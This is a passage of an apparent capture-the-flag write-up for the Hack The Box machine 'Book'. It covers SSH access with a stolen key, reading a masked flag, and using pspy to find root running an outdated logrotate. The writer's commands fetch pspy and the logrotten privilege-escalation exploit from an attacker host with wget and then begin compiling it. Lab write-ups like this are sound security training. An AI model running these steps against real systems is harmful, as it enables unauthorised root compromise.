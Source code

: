 # user.txt

Using the private key, we can `ssh` into the box.

{% highlight raw %}
$ chmod 700 19868.txt
$ ssh -i 19868.txt reader@book.htb
reader@book:~$ cat user.txt 
51c1XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


# Enumeration (2)

In the home directory was

I first uploaded [`pspy`](https://github.com/DominicBreuker/pspy) to `/tmp` so that I could monitor for processes.

{% highlight bash %}
reader@book:/tmp$ wget http://10.10.XX.XX/pspy
--2020-07-11 11:40:51--  http://10.10.XX.XX/pspy
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1090528 (1.0M) [application/octet-stream]
Saving to: ‘pspy’

pspy                                                    100%[===============================================================================================================================>]   1.04M   584KB/s    in 1.8s    

2020-07-11 11:40:54 (584 KB/s) - ‘pspy’ saved [1090528/1090528]

reader@book:/tmp$ chmod +x pspy && ./pspy
...
2020/07/11 11:50:22 CMD: UID=0    PID=48727  | /usr/sbin/logrotate -f /root/log.cfg 
{% endhighlight %}

`logrotate` was being ran from time to time as `root` and its version was outdated!

{% highlight bash %}
reader@book:/tmp$ logrotate --version
logrotate 3.11.0
{% endhighlight %}


# Exploitation (2)

According to this [`link`](https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html), `logrotate` version `3.15.1` and below are vulnerable to an exploit called `logrotten`.

{% highlight bash %}
reader@book:/tmp$ wget http://10.10.XX.XX/logrotten.c
--2020-07-11 12:43:27--  http://10.10.14.7/logrotten.c
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5796 (5.7K) [text/plain]
Saving to: ‘logrotten.c’

logrotten.c                                             100%[===============================================================================================================================>]   5.66K  --.-KB/s    in 0.006s  

2020-07-11 12:43:27 (975 KB/s) - ‘logrotten.c’ saved [5796/5796]

reader@book:/tmp$ gcc logrotten.c 